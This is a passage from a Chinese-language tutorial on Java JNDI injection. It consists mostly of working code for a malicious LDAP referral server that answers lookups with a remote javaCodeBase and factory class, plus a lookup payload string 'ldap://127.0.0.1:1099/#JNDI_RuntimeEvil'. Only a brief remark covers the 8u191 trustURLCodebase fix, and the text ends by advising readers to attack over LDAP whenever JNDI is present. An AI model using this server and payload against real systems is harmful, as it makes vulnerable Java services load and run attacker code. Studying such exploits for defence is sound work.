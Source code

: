 ```java
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {

        private URL codebase;

        public OperationInterceptor ( URL cb ) {
            this.codebase = cb;
        }

        @Override
        public void processSearchResult ( InMemoryInterceptedSearchResult result ) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e);
            }
            catch ( Exception e1 ) {
                e1.printStackTrace();
            }
        }

        protected void sendResult ( InMemoryInterceptedSearchResult result, String base, Entry e ) throws LDAPException, MalformedURLException {
            URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
            System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
            e.addAttribute("javaClassName", "foo");
            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf('#');
            if ( refPos > 0 ) {
                cbstring = cbstring.substring(0, refPos);
            }
            e.addAttribute("javaCodeBase", cbstring);
            e.addAttribute("objectClass", "javaNamingReference"); //$NON-NLS-1$
            e.addAttribute("javaFactory", this.codebase.getRef());
            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }
    }
}
```

记得要改协议，lookup payload：

```JAVA
ldap://127.0.0.1:1099/#JNDI_RuntimeEvil
```

* 修复

8u191 `com.sun.jndi.ldap.object.trustURLCodebase `属性的默认值被调整为false，LDAP也打不了了



总之有JNDI，建议直接LDAP打，除非服务器禁了LDAP协议
